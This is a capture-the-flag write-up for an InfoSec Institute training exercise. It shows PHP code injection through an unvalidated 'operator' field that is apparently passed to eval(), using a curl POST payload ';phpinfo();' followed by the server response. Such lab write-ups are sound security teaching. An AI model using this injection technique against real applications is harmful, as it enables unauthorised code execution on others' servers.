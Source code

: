 # A1 Injection

1.	The goal is to inject the `phpinfo()` function in order to show its output.
	After some attemps, seems that `operand1` and `operand2` input fields must
	be numbers. On the contrary, `operator` field is not validated. Therefore,
	it's realistic to assume that `operator` is the attack's veicle.

2.	In the normal behaviour, the app replies with

		The result of X + Y is: Z

	where X is the value of `operand1`, Y the value of `operand2` and Z the
	result of the operation (maybe generated through `eval()` function).

3.	Our task is to include the "magic code" in the operator field. Let's try
	this

		$ curl -XPOST --data "operand1=1&operand2=1&operator=;phpinfo();" \
			http://ctf.infosecinstitute.com/ctf2/exercises/ex2.php
		HTTP/1.1 200 OK
		Date: Mon, 07 Sep 2015 08:08:54 GMT
		Server: Apache/2.4.7 (Ubuntu)
		X-Powered-By: PHP/5.5.9-1ubuntu4.6
		Set-Cookie: PHPSESSID=gqinri2rihvkjb7jvu4ea9ase7; path=/
		Expires: Thu, 19 Nov 1981 08:52:00 GMT
		Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
		Pragma: no-cache
		Vary: Accept-Encoding
		Content-Length: 7561
		Content-Type: text/html

		[...]

		<div class="modal-body">
			<p>You managed to complete level 2. You will be redirected to level 3 in 10 seconds.</p>
		</div>

		[...]

	It seems to work...

[Go to Ex1](./ex1.md) | [Go to Ex3] (./ex3.md)

